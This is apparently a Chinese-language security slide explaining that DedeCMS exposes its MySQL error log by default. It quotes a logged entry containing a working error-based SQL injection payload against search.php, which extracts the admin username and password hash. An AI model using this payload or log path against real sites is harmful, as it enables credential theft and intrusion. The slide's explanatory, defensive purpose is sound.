

日志文件信息泄露
DeDeCMS的错误日志默认是可以访问并查看的：
www.xxxx.com/v2009//data/mysql_error_trace.inc
可以看到如下信息：
/*
Page: /v2009/plus/search.php?keyword=as&typeArr[111%3D@`\'`)+and+(SELECT+1+FROM+(select+count(*),concat(floor(rand(0)*2),(substring((select+CONCAT(0x7c,userid,0x7c,pwd)+from+`%23@__admin`+limit+0,1),1,62)))a+from+information_schema.tables+group+by+a)b)%23@`\'`+]=a
Error: Duplicate entry '1|admin|92cfbe16701x3665a93c' for key 1 <br />Error sql: <font color='red'>Select arc.*,act.typedir,act.typename,act.isdefault,act.defaultname,act.namerule,
		act.namerule2,act.ispart,act.moresite,act.siteurl,act.sitepath
		from `dede_archives` arc left join `dede_arctype` act on arc.typeid=act.id
		where  typeid in (111=@`\'`) and (SELECT 1 FROM (select count(*),concat(floor(rand(0)*2),(substring((select CONCAT(0x7c,userid,0x7c,pwd) from `dede_admin` limit 0,1),1,62)))a from information_schema.tables group by a)b)#@`\'` )  And  arc.arcrank > -1  And ( CONCAT(arc.title,' ',arc.writer,' ',arc.keywords) like '%s%' )  order by arc.sortrank desc limit 0,10</font>
*/

从日志里可以分析出很久以前，有人通过注入漏洞，暴出了管理员后台用户名和密码。